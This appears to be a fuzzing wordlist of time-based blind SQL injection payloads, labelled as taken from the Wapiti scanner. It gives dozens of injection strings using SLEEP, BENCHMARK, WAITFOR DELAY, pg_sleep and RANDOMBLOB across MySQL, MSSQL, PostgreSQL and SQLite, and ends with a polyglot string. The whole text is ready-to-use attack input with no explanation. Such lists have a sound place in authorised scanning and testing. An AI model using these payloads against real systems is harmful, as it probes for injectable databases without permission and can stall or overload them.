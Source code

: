     # from wapiti
    sleep(5)#
    1 or sleep(5)#
    " or sleep(5)#
    ' or sleep(5)#
    " or sleep(5)="
    ' or sleep(5)='
    1) or sleep(5)#
    ") or sleep(5)="
    ') or sleep(5)='
    1)) or sleep(5)#
    ")) or sleep(5)="
    ')) or sleep(5)='
    ;waitfor delay '0:0:5'--
    );waitfor delay '0:0:5'--
    ';waitfor delay '0:0:5'--
    ";waitfor delay '0:0:5'--
    ');waitfor delay '0:0:5'--
    ");waitfor delay '0:0:5'--
    ));waitfor delay '0:0:5'--
    '));waitfor delay '0:0:5'--
    "));waitfor delay '0:0:5'--
    benchmark(10000000,MD5(1))#
    1 or benchmark(10000000,MD5(1))#
    " or benchmark(10000000,MD5(1))#
    ' or benchmark(10000000,MD5(1))#
    1) or benchmark(10000000,MD5(1))#
    ") or benchmark(10000000,MD5(1))#
    ') or benchmark(10000000,MD5(1))#
    1)) or benchmark(10000000,MD5(1))#
    ")) or benchmark(10000000,MD5(1))#
    ')) or benchmark(10000000,MD5(1))#
    pg_sleep(5)--
    1 or pg_sleep(5)--
    " or pg_sleep(5)--
    ' or pg_sleep(5)--
    1) or pg_sleep(5)--
    ") or pg_sleep(5)--
    ') or pg_sleep(5)--
    1)) or pg_sleep(5)--
    ")) or pg_sleep(5)--
    ')) or pg_sleep(5)--
    AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
    AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
    AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
    AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
    AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
    SLEEP(5)#
    SLEEP(5)--
    SLEEP(5)="
    SLEEP(5)='
    or SLEEP(5)
    or SLEEP(5)#
    or SLEEP(5)--
    or SLEEP(5)="
    or SLEEP(5)='
    waitfor delay '00:00:05'
    waitfor delay '00:00:05'--
    waitfor delay '00:00:05'#
    benchmark(50000000,MD5(1))
    benchmark(50000000,MD5(1))--
    benchmark(50000000,MD5(1))#
    or benchmark(50000000,MD5(1))
    or benchmark(50000000,MD5(1))--
    or benchmark(50000000,MD5(1))#
    pg_SLEEP(5)
    pg_SLEEP(5)--
    pg_SLEEP(5)#
    or pg_SLEEP(5)
    or pg_SLEEP(5)--
    or pg_SLEEP(5)#
    '\"
    AnD SLEEP(5)
    AnD SLEEP(5)--
    AnD SLEEP(5)#
    &&SLEEP(5)
    &&SLEEP(5)--
    &&SLEEP(5)#
    ' AnD SLEEP(5) ANd '1
    '&&SLEEP(5)&&'1
    ORDER BY SLEEP(5)
    ORDER BY SLEEP(5)--
    ORDER BY SLEEP(5)#
    (SELECT * FROM (SELECT(SLEEP(5)))ecMj)
    (SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
    (SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
    +benchmark(3200,SHA1(1))+'
    + SLEEP(10) + '
    RANDOMBLOB(500000000/2)
    AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
    OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
    RANDOMBLOB(1000000000/2)
    AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
    OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
    SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
